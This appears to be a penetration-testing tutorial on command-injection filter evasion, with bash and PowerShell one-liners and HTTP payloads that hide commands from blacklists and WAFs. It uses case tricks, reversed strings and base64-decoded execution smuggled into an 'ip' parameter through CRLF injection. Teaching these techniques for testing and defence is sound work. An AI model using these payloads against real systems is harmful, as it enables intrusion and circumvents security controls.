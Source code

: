In some instances, we may be dealing with advanced filtering solutions, like Web Application Firewalls (WAFs), and basic evasion techniques may not necessarily work. We can utilize more advanced techniques for such occasions, which make detecting the injected commands much less likely.

While the following techniques can work, it is still a good idea to be creative with Bash and Powershell to create your own unique obfuscation methods. This way, it is much less likely for the payload to be denied by a filter or a WAF.
## Case Manipulation
One command obfuscation technique we can use is case manipulation, in which the character cases of a command is inverted (e.g `WHOAMI`) or alternated (e.g `WhOaMi`). This usually works because command blacklist functions may not check for different case variations of a single word, this is because Linux-based systems are case sensitive. So this technique will work for Windows' Powershell and CMD as they are case-insensitive.

Not all is lost for Linux-based systems and bash shell, we just have to be creative:
```bash
$(tr "[A-Z]" "[a-z]"<<<"WhOaMi")
```
The command above will convert the command into an all-lowercase word and execute it.

Additionally, for bash shell, the following technique will work as well:
```bash
$(a="WhOaMi";printf %s "${a,,}")
```
## Reversed Commands
Another technique is reversing commands, and having a command template that switches them back and executes the command. For example, instead of executing `whoami`, we will instead use `imaohw` to avoid triggering the blacklisted command.

But first, we have to get the reversed string of our command in our terminal:
```bash
echo 'whoami' | rev
```
Then we can execute the original command by reversing it back in a sub-shell:
```http
POST / HTTP/1.1
Host: target-website.com
...

ip=127.0.0.1%0d%0a$(rev<<<'imaohw')
```

The same can also be applied to Windows. First we reverse the string:
```powershell
"whoami"[-1...20] -join ''
```
Then we execute a reverse string using Powershell sub-shell (`iex "$()"`):
```http
POST / HTTP/1.1
Host: target-website.com
...

ip=127.0.0.1%0d%0aiex "$('imaohw'[-1..-20] -join '')"
```
> Note: We removed the encoding on the command so that we can read it properly. But during engagements, make sure to encode the necessary characters to bypass other filters.
## Encoded Commands
Another technique is encoding commands, this may be helpful for commands containing filtered characters or characters that may be URL-decoded by the server. However, this may allow for the command to get messed up by the time it reaches the shell and eventually fails to execute (avoid this by not using encoded characters).

In this case, we can utilize various tools such as `base64` for base64 encoding and `xxd` for hex encoding. For example:
```bash
echo "whoami" | base64
```
Which will return `d2hvYW1pCg==`. We can now create a command to decode the encoded string in a sub-shell and then pass it to bash to be executed:
```bash
bash<<<$(base64 -d<<<d2hvYW1pCg==)
```
Which we can then use as a payload:
```http
POST / HTTP/1.1
Host: target-website.com
...

ip=127.0.0.1%0d%0abash<<<$(base64%09-d<<<d2hvYW1pCg==)
```
>   Tip: Note that we are using `<<<` to avoid using a pipe `|`, which is a filtered character. 

This encoding technique can also be used in Windows environment by using the following command:
```powershell
[Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('whoami'))
```
The command above can also be done in a Linux environment, by first converting the string from `utf-8` to `utf-16`:
```bash
echo -n whoami | iconv -f utf-8 -t utf-16le | base64
```

We can then decode the base64-encoded string and execute it with a Powershell sub-shell (`iex "$()"`):
```powershell
iex "$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('dwBoAG8AYQBtAGkA')))"
```
## Automating Evasion/Bypass
When dealing with advanced security tools, it may be hard to use basic, manual obfuscation methods. In such cases, it's wise to resort to automated obfuscation tools, such as [Bashfuscator](https://github.com/Bashfuscator/Bashfuscator) for Linux and [DOSfuscation](https://github.com/danielbohannon/Invoke-DOSfuscation) for Windows.